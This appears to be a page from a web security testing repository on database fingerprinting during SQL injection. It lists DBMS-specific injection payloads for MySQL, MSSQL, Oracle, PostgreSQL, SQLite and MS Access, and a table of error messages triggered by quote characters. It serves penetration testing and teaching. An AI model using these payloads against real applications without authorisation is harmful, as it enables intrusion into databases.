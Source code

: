 If we does not know any thing about the target database and tables, to know the database name and the version will be our first priority.

- ### [SQL Payloads](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#sql-payloads-1)
- ### [Error Messages](https://github.com/SpiderSec101/Web_Application_Security_Testing/blob/main/Vulnerabilities/SQL%20Injection/DBMS_Identification.md#error-messages-1)

---

### SQL Payloads
It is a database fingerprinting technique in which we apply different SQL payloads to get any valid responses, so that we can confirm which SQL payload is working and then the database type can be easily known through the tables

- **MySQL-Specific Payloads**
  If these payload can trigger ant valid responses or errors the DBMS is likely My-SQL based.
  
      conv('a',16,2)=conv('a',16,2)
      connection_id()=connection_id()
      crc32('MySQL')=crc32('MySQL')
  
- **MSSQL Specific Payloads**
  
    	BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
      @@CONNECTIONS>0
      @@CONNECTIONS=@@CONNECTIONS
      @@CPU_BUSY=@@CPU_BUSY
      USER_ID(1)=USER_ID(1)
  
- **Oracle Specific Payloads**
      ROWNUM=ROWNUM
      RAWTOHEX('AB')=RAWTOHEX('AB')
      LNNVL(0=123)
  
- **POSTGRESQL Specific Payloads**

      5::int=5
      5::integer=5
      pg_client_encoding()=pg_client_encoding()
      get_current_ts_config()=get_current_ts_config()
      quote_literal(42.5)=quote_literal(42.5)
      current_database()=current_database()

- **SQLite Specific Payloads**

      sqlite_version()=sqlite_version()
      last_insert_rowid()>1
      last_insert_rowid()=last_insert_rowid()

- **MSACCESS Specific Payloads**

      val(cvar(1))=1
      IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0

### Error Messages
If we can trigger any SQL error message, it also tells about the database type.

| **DBMS** | **Example Error Message** | **Example Payload** |
| --- | --- | --- |
| MySQL | `You have an error in your SQL syntax; ... near '' at line 1` | `'` |
| PostgreSQL | `ERROR: unterminated quoted string at or near "'"` | `'` |
| PostgreSQL | `ERROR: syntax error at or near "1"` | `1'` |
| Microsoft SQL Server | `Unclosed quotation mark after the character string ''.` | `'` |
| Microsoft SQL Server | `Incorrect syntax near ''.` | `'` |
| Microsoft SQL Server | `The conversion of the varchar value to data type int resulted in an out-of-range value.` | `1'` |
| Oracle | `ORA-00933: SQL command not properly ended` | `'` |
| Oracle | `ORA-01756: quoted string not properly terminated` | `'` |
| Oracle | `ORA-00923: FROM keyword not found where expected` | `1'` |






































    
